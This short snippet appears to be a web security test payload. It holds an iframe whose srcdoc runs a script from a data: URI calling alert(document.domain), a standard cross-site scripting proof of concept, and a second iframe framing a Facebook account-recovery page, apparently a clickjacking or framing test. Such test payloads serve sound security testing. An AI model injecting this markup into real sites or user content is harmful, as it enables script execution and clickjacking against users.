 

<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<iframe src="https://www.facebook.com/login/identify/?ctx=recover&from_login_screen=0"></iframe>
